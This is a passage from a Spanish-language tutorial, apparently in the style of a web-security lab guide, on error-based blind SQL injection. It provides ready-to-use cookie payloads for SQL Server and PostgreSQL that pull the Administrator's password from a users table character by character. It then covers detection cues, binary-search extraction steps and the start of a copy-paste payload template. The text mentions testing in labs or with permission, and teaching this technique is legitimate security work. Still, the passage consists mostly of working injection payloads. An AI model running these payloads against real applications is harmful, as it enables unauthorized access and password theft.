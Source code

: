 ### SQL Server — conversión inválida para forzar error

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (SUBSTRING((SELECT TOP 1 password FROM users WHERE username='Administrator'),1,1) > 'm') THEN CONVERT(int,'notint') ELSE 'a' END)='a
```

### PostgreSQL — división por cero

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='Administrator') FROM 1 FOR 1) > 'm') THEN 1/0 ELSE 'a' END)='a
```

---

## 8) Detección: ¿cómo sé si hubo error?

* **Código HTTP** 500 u otro.
* **Contenido de la respuesta**: mensaje de error SQL (si está expuesto) o contenido diferente.
* **Longitud de la respuesta**: variación significativa.
* **Headers**: a veces aparecen cabeceras distintas.

Siempre compara contra respuestas de referencia (condición known-true / known-false) para evitar falsos positivos.

---

## 9) Buenas prácticas al usar esta técnica

* **Prueba primero en un lab o con permiso**.
* URL-encodea y respeta cómo la app envuelve tu input.
* Implementa backoff y límites de velocidad.
* Usa `LIMIT 1`/`TOP 1`/`ROWNUM=1` en subqueries para evitar múltiples filas.
* Si no ves errores, alterna con time-based o OAST.

---

## 10) Ejemplo completo de extracción (flujo)

1. Confirmás que la aplicación revela diferencia al forzar error: prueba `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` y `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'`.
2. Determinás la posición `pos` del carácter a extraer.
3. Usás búsqueda binaria con `ASCII(SUBSTRING(...)) > mid` anidada en `CASE` para reducir peticiones.
4. Cuando confirmás el ASCII exacto, pasás a la siguiente posición.

---

## 11) Plantilla de payloads para el lienzo (para copiar)

* MySQL (cond-error, comparar ASCII mayor que 109):
